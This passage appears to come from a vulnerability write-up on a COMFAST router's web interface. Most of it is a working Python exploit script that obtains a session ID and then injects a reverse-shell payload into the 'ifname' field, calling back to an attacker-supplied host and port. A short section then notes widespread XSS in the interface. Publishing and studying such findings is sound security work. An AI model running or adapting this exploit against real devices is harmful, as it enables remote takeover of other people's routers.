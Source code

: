 ``` python
    args = arg_parser.parse_args()
    console.print("Don't forget to run a listener to get the reverse shell!", style="bold red")


    host = args.host
    if args.secure:
        proto = "https://"
    

    console.print("POST request to get the server to generate a valid COMFAST_SESSIONID", style="bold")
    data = {}
    url = proto + host + SESSION_ID_URI
    headers = {'Content-type': 'application/json', 'Accept': 'text/plain'}
    r = requests.post(url, data=json.dumps(data), headers=headers)

    console.print("Running exploit!", style="bold")
    attacker_host = args.attacker_host
    attacker_port = args.attacker_port

    payload = PAYLOAD%(attacker_host, attacker_port)
    data = {'add_list': [{'ip': '192.168.1.1', 'mac': 'dc:4e:f4:08:68:19', 'ifname': 'lan;' + payload, 'remark': ''}], 'operate': 'add'}
    url = proto + host + EXPLOIT_URI
    headers = {'Content-type': 'application/json', 'Accept': 'text/plain'}
    r = requests.post(url, data=json.dumps(data), headers=headers)

    console.print("Exploit successful. Enjoy your shell :-)", style="bold")


```



## Multiple XSS
While testing, I also found that most of the fields of the web application were vulnerable to XSS due to the lack of input validation.
<p align="center">